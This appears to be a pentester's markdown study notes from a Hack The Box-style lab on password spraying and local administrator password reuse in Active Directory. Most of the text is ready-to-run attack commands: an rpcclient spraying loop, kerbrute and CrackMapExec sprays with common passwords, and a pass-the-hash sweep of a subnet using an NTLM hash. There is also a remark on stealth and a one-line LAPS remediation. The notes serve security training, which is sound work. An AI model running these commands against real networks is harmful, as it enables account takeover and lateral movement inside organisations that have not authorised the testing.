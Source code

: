 # Password Spraying
checklist:
```markdown
1- userlist should be ready at this stage kerbrute did its job
2- password policy obtained 
```

lets spray
#### Using a Bash one-liner for the Attack
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

#### Using Kerbrute for the Attack
```bash
AhmaDb0x@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 var.txt  Welcome1
```
---

#### Using CrackMapExec & Filtering Logon Failures
```bash
AhmaDb0x@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u jsmith.txt -p Welcome1 | grep +
```

#### Validating the Credentials with CrackMapExec
```bash
AhmaDb0x@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

---

# Local Administrator Password Reuse

The `--local-auth` flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.

```bash
AhmaDb0x@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

`noisy and is not a good choice for any assessments that require stealth.`

# remediation
using the free Microsoft tool [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) to have Active Directory manage local administrator passwords and enforce a unique password on each host that rotates on a set interval.

